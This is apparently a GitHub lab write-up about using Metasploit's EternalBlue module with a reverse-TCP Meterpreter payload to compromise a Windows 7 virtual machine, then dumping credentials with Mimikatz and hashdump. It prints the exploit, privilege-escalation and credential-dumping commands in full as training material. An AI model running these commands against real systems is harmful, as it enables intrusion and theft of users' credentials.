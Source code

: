 # Summary of Extracting Credentials Using Meterpreter and Mimikatz

 ### [YouTube Demonstration](https://youtu.be/Je-QIsPMlzk)
 
## Background

In cybersecurity, understanding how attackers extract credentials from compromised systems is crucial for developing effective defense strategies. Meterpreter, a powerful post-exploitation tool, allows attackers to interact with compromised Windows systems and perform various tasks, including extracting sensitive data like password hashes. Mimikatz, a popular credential extraction tool, can be used through Meterpreter to dump password hashes from LSASS memory and the SAM database.

## Project Overview

In this project, I used Meterpreter to obtain a session on a Windows 7 virtual machine and then used Mimikatz to dump credentials from the LSASS memory and the SAM database. The aim was to demonstrate how attackers use Meterpreter and Mimikatz for credential extraction and to gain practical experience in post-exploitation activities.

## Steps Taken

1. **Gain Meterpreter Session**:
   - Launched Metasploit and used an appropriate exploit to gain a Meterpreter session on the Windows 7 virtual machine.

    ```plaintext
    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOST <target_ip>
    set payload windows/meterpreter/reverse_tcp
    set LHOST <your_ip>
    set LPORT <your_port>
    exploit
    ```

2. **Escalate Privileges to SYSTEM**:
   - Used the `getsystem` command within the Meterpreter session to escalate privileges to SYSTEM level.

    ```plaintext
    getsystem
    ```

3. **Verify Privileges**:
   - Used the `getuid` command to display the current user's privileges and confirmed that SYSTEM privileges were obtained.

    ```plaintext
    getuid
    ```

4. **Extract Credentials from LSASS**:
   - Used Mimikatz commands within the Meterpreter session to extract usernames and password hashes from the LSASS memory.

    ```plaintext
    load mimikatz
    mimikatz_command -f sekurlsa::logonpasswords
    ```

5. **Dump Password Hashes from SAM Database**:
   - Used the `hashdump` command in Meterpreter to dump password hashes from the SAM database.

    ```plaintext
    hashdump
    ```

## Validation

- Verified that the `getuid` output indicated SYSTEM privileges.
- Successfully obtained credentials from the LSASS process using Mimikatz.
- Confirmed password hashes were obtained from the SAM database using the `hashdump` command.

## Learning Objectives Achieved

- **Credential Extraction**: Gained hands-on experience in using Meterpreter and Mimikatz to extract credentials from compromised systems.
- **Post-Exploitation**: Understood how attackers use post-exploitation tools to perform advanced tasks like credential theft.

